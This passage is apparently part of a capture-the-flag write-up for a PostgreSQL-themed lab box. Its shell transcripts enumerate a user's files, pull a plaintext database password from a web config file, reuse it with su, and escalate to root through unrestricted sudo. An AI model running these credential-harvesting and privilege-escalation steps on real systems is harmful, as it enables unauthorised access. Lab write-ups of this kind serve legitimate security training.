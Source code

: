 - find / -group dark 2>/dev/null
```bash
dark@ubuntu:~$ find / -group dark 2>/dev/null | grep -v '/proc'
find / -group dark 2>/dev/null | grep -v '/proc'
/sys/fs/cgroup/systemd/user.slice/user-1001.slice/user@1001.service
/sys/fs/cgroup/systemd/user.slice/user-1001.slice/user@1001.service/tasks
/sys/fs/cgroup/systemd/user.slice/user-1001.slice/user@1001.service/cgroup.procs
/sys/fs/cgroup/systemd/user.slice/user-1001.slice/user@1001.service/init.scope
/sys/fs/cgroup/systemd/user.slice/user-1001.slice/user@1001.service/init.scope/tasks
/sys/fs/cgroup/systemd/user.slice/user-1001.slice/user@1001.service/init.scope/cgroup.procs
/sys/fs/cgroup/systemd/user.slice/user-1001.slice/user@1001.service/init.scope/cgroup.clone_children
/sys/fs/cgroup/systemd/user.slice/user-1001.slice/user@1001.service/init.scope/notify_on_release
/home/dark
/home/dark/.bashrc
/home/dark/.bash_logout
/home/dark/.profile
/home/dark/.bash_history
/home/dark/credentials.txt
/run/user/1001
/run/user/1001/systemd
/run/user/1001/systemd/private
/run/user/1001/systemd/notify

```

- digging around like a blind man looking for nickel 
- /var/www/html/config.php
- reveals alison's password, shame shame we know your name. 
```bash
ark@ubuntu:/var/lib/postgresql$ cat /var/www/html/config.php
cat /var/www/html/config.php
<?php 

        $dbhost = "127.0.0.1";
        $dbuname = "alison";
        $dbpass = "p4ssw0rdS3cur3!#";
        $dbname = "mysudopassword";
```

- using password to login to Alison
```bash
dark@ubuntu:/var/lib/postgresql$ su alison
su alison
Password: p4ssw0rdS3cur3!#
alison@ubuntu:/var/lib/postgresql$ cat /home/alison/user.txt
cat /home/alison/user.txt
THM{postgresql_fa1l_conf1gurat1on}
```

- using sudo -l to reveal Alison's sudo permisisons reveal that Alison can run sudo commands
```bash
alison@ubuntu:/var/lib/postgresql$ sudo -l 
sudo -l
[sudo] password for alison: p4ssw0rdS3cur3!#

Matching Defaults entries for alison on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alison may run the following commands on ubuntu:
    (ALL : ALL) ALL

alison@ubuntu:/$ sudo su
sudo su
root@ubuntu:/#
```